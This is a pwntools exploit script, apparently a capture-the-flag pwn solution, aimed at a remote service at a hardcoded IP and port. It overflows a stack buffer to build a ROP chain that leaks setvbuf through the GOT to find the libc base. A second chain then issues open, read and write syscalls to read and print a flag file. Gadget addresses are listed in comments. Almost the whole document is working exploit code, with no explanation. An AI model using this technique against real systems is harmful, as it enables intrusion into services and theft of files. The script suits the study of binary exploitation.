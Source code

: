 ```
context.terminal=['tmux','splitw','-h']
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')
p=remote('8.130.110.158',2111)
# p=process('./pwn')
# p=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
# gdb.attach(p)
func_addr=elf.got['setvbuf']
syscall_ret=0x4012ec
pop_rdi=0x401363
pop_rsi2=0x401361
 
p.sendline("000")
payload=b'a'*0x78+p64(pop_rdi)+p64(1)+p64(pop_rsi2)+p64(func_addr)+p64(0xdeadfeef)+p64(0x401291)
pause()
p.sendline(payload)
p.recvuntil(b'./f1ag')
p.recv(2)
# p.recvuntil(b'./f1ag\x00\x00\x00')
func_addr=u64(p.recv(6).ljust(8,b'\x00'))
base=func_addr-libc.symbols['setvbuf']
print(hex(func_addr))
print(hex(base))
system_addr=base+libc.symbols['system']
printf_addr=base+libc.symbols['printf']
sh=base+next(libc.search(b'/bin/sh'))
open64_addr=base+libc.symbols['open64']
 
flag_name=0x4040e0
pop_rdx=0x142c92+base
pop_rsi=0x2601f+base
pop_rax=0x36174+base
 
payload=b'flag\x00\x00\x00\x00'
pause()
p.send(payload)
 
payload=b'a'*0x78+p64(pop_rax)+p64(2)+p64(pop_rdi)+p64(flag_name)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(pop_rsi)+p64(0)+p64(syscall_ret)+p64(pop_rax)+p64(0)+p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_name+0x20)+p64(pop_rdx)+p64(0x30)+p64(syscall_ret)+p64(pop_rax)+p64(1)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag_name+0x20)+p64(pop_rdx)+p64(0x30)+p64(syscall_ret)+p64(0x401270)
pause()
p.send(payload)
 
p.interactive(0)
 
# 0x000000000040135c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040135e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401360 : pop r14 ; pop r15 ; ret
# 0x0000000000401362 : pop r15 ; ret
# 0x000000000040135b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040135f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x000000000040119d : pop rbp ; ret
# 0x0000000000401363 : pop rdi ; ret
# 0x0000000000401361 : pop rsi ; pop r15 ; ret
# 0x000000000040135d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
# 0x000000000040127e : ret 0x14
# 0x00000000004012e7 : ret 0x200
 
# 0x00000000004012ba : ret 0x4c
# 0x000000000040129c : ret 0x50
# offset in libc
```